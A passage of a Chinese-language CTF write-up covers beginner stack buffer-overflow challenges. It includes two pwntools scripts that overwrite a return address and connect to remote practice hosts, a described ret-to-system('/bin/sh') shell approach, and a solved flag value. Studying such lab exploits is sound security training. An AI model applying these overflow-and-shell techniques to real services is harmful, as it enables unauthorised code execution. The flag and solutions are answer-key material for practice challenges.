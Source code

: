 8. ![image-20240506205802200](https://s2.loli.net/2024/05/06/iZd38gPabAj1uwl.png)
9. flag=**flag{4bf61dbe-129f-460e-914a-96ee9ab54ac8}**

## [NSSCTF 2022 Spring Recruit]R3m4ke?

1. 题目地址：[[NSSCTF 2022 Spring Recruit\]R3m4ke? | NSSCTF](https://www.nssctf.cn/problem/2141)

2. 打开附件：又是gets函数，栈溢出。

   ![image-20240506205144293](https://s2.loli.net/2024/05/06/Erli9bQMVNtceZ8.png)

3. 找到v4的栈：垃圾数据填充为32+8。

   ![image-20240506205046088](https://s2.loli.net/2024/05/06/SPAK9Gtxv1fI8i2.png)

4. 攻击脚本：

``````python
from pwn import *
 
p = remote('node4.anna.nssctf.cn',28276)

payload = b'a'*(32+8)+p64(0x40072C)
p.sendline(payload)
p.interactive()
``````



## [watevrCTF 2019]Voting Machine 1

1. 题目地址：[[watevrCTF 2019]Voting Machine 1](https://www.nssctf.cn/problem/85)
2. 目标函数：**super_secret_function函数**地址0x400807。![image-20240506205503883](https://s2.loli.net/2024/05/06/iKLVQBXfDMEARhw.png)
3. main函数中gets栈溢出。![image-20240506205513867](https://s2.loli.net/2024/05/06/jgDzPr4JkfGTtwp.png)
4. v4栈，垃圾数据填充**2+8**个字节：
5. 攻击脚本：

``````python
from pwn import *
 
p = remote('node5.anna.nssctf.cn',20703)

payload = b'a'*(2+8)+p64(0x400807)
p.sendline(payload)
p.interactive()

``````

## jarvisoj_level2

1. [jarvisoj_level2]([BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#jarvisoj_level2))
2. ida打开：read函数度**0x100**这么长，必存在栈溢出。![image-20240506223846392](https://s2.loli.net/2024/05/06/xiMPvmEHWsfdZOG.png)
3. 使用该函数，手动传入**bin/sh**参数，来达到system("/bin/sh")的目的：![image-20240506223947917](https://s2.loli.net/2024/05/06/AvZdSIXPjz1kFeQ.png)
4. 首先要跳转到该函数处：地址**0x8048320**，然后为其传入参数**/bin/sh**地址**804A024**(任然用栈传参)。![image-20240506224122097](https://s2.loli.net/2024/05/06/OKGeBfnNsTmP8py.png)
